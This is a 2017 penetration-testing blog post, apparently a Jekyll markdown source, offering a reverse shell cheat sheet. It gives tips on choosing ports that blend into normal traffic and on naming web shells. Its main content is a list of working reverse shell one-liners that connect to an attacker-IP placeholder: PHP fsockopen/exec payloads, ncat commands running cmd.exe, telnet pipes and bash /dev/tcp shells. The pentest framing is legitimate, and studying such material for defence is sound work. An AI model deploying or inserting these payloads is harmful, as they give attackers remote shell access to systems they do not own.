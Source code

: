 ```yaml
---
layout: post
title:  "Reverse Shell Cheat Sheet"
date:   2017-01-17 20:56:00 -0600
Categories: pentesting
---
```


## Cause everyone posts one

If enumeration is the bread and butter of penetration testing, reverse shells are the cheesecake. Stolen usernames and passwords may be one of the most reliable ways to get into a system, but theres nothing like messing something up a bunch and then finally seeing that reverse shell prompt pop up. These are some quick and easy ones in different formats.

## First, some thoughts

Reverse shells are great, but you need to make sure they get to you. Way too many reverse shells and exploits code the exploit to send reverse shells back to port 4444. If you see this port active in a production environment and can't immediately recognize why, you need to figure it out. You may have been popped by someone who barely knows what they're doing which probably also means someone way worse is already in. 

If you're going to send yourself back a reverse shell, try ports that people should expect to see. Port 80 and 443 are great, but so is DNS. [This](http://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html) is an excellent write up of RCE found in Facebook that had to use outbound DNS to send results back to his listening machine. Amazing stuff. 

If you think it should work and it's not, tcpdump or wireshark your host (if you can) and see what's coming and going. If I'm trying to exploit a web app on port 80 to send back a remote shell, one tcpdump quickie I use is 

~~~
tcpdump -qtpni eth0/tap0/whatever0 host <VICTIMIP> and not port 80 
~~~

That watches traffic for anything coming back and gives you a condensed, simple output for it only on the interface you expect the attack to copme back through (tap0 if you're on a VPN, for example), listening only for the victim host so you don't see a bunch of other noise and excluding the port you know you're going to see traffic on. In this case, since I'm attacking port 80, I'm probably listening on port 443 with a netcat listener. You could specify port 443 only, but this wouldn't catch if you did something wrong in your exploit and are sending the exploit back to the wrong port (we all make mistakes). 


### But bind shells are easier!

And therein lies the problem. Bind shells are great, but they're irresponsible. If you can bind to the port, anyone else can. If you're part of a real engagement for a customer or doing something in house, you can't leave bind shells everywhere, it's like leaving windows open for burglars. If someone is already inside the client's network,  you've just made their job that much easier when your goal is the opposite. Use reverse shells, encrypt when possible, and clean up after yourself. Relatedly, if you're uploading a file to an externally available site like a web shell, don't name it admin.php or shell.php. Use a complex naming schema that can't be brute forced or ideally a tag that can be found repeatedly. Something like remotephone_j1er234.php is harder to brute force and way easier to track down for cleanup.  


## Let's begin!

Don't be lazy. You shouldn't be trying to get a shell back unless you have a good idea of what the underlying OS is. Each one of these can be adjusted and may need to be. It's possible you know you have a linux type OS, but what if bash is in /usr/bin/ instead of /bin/? Do some recon, know what you're working with, and, if you really have every reason to believe you should be getting a shell but you aren't, always assume you've done something wrong. It's usually the safe bet.  

### PHP

This is a very generic PHP reverse shell. It runs PHP inside of itself to send a connection back with /bin/sh

~~~
'<?php  echo shell_exec(php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
~~~

Here are a lot of variations on a theme. Each one worked for something different (some didn't work at all, but might for you), and others are just interesting.

~~~
'<?php -r fsockopen("<ATTACKIP>",443); exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
'<?php $s=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&4 >&4 2>&4");?>'
'<?php exec("/bin/sh | /bin/nc <ATTACKIP> 443");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php set_time_limit (20);$sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
'<?php shell_exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
~~~

No matter what's different with each one, every single one is calling a command shell, sending it over a network connection to the port you want. Every example is using port 443, so adjust that as you need to adjust it. Also, note that it's suspicious to send non-HTTPS traffic over 443, so keep that in mind if you're dealing with deep packet inspection or an attentive analyst. It might be more useful to use meterpreter reverse_https for something like that.

### Ncat and nc

Ncat and nc are great tools. You can do a ton with each one, but ncat is just a whole other level for what it allows you to accomplish. While nc is the traditional tool, ncat comes from the same people who produce nmap and includes tons more features including ssl support and the ability to restrict access! 

Of course, you'll have to work these into your exploit. To create a bind shell that only allows a specific IP to connect to it, use

~~~
ncat -lvp 4445 -e cmd.exe --allow <ATTACKIP> --ssl
~~~

To do this even more safely, use a reverse shell 

~~~
ncat -v <attackIP> 443 -e cmd.exe --ssl
~~~


### Non-netcat Shells

This one is really clunky, but it works when you just can't get anything else working. For this to work, you need two listeners and your shell will show up on the second one. It's a complete mess, but it works and it's just kind of nifty to see.

~~~
telnet <ATTACKIP> 443 | /bin/sh | telnet <ATTACKIP> 444
~~~

This one came from [this](https://twitter.com/webpentest/status/424165659518316544) tweet and it's interesting. 

~~~
/bin/bash -l > /dev/tcp/<ATTACKIP>/<ATTACKPORT> 0<&1 2>&1
~~~

Another interesting telnet shell

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet <ATTACKIP> <ATTACKPORT> 0/tmp/p
~~~




#### Sources

"If I've seen so far, it's because I've stolen the shoulders of giants" or something. 

These are some great resources for some of the shells I've included above. Learn from others, modify it, and share!


[The one](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) everyone seems to link 

[Variations](https://highon.coffee/blog/reverse-shell-cheat-sheet/) on the theme.

[Oldy](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) but goody
